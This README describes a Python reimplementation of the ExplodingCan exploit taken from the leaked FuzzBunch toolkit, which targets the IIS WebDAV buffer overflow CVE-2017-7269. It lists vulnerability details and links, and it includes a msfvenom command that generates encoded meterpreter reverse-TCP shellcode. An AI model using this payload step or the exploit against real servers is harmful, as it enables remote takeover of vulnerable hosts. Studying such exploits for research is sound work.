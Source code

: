 # ExplodingCan

An implementation of ExplodingCan's exploit extracted from FuzzBunch, the "Metasploit" of the NSA.

![exploit](https://user-images.githubusercontent.com/1675387/34538644-707d3dc8-f0cd-11e7-855f-24213f1ca579.png)

## Details

* **Vulnerability**: Microsoft IIS WebDav 'ScStoragePathFromUrl' Remote Buffer Overflow
* **CVE**: [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269)
* **Disclosure date**: March 31 2017
* **Affected product**: Microsoft Windows Server 2003 R2 SP2 x86


## Why?
Months ago I needed to study this exploit, and finally I implemented it in python.

## Shellcode

The shellcode must be in alphanumeric format due to the limitations of the bug. e.g. with Metasploit using the `alpha_mixed` encoder:

```
$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode
```

## Links

* [Fuzzbunch framework](https://github.com/x0rz/EQGRP_Lost_in_Translation)
* [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
* [0patching the "Immortal" CVE-2017-7269](https://0patch.blogspot.com.es/2017/03/0patching-immortal-cve-2017-7269.html)
* [First exploit published](https://www.exploit-db.com/exploits/41738/)
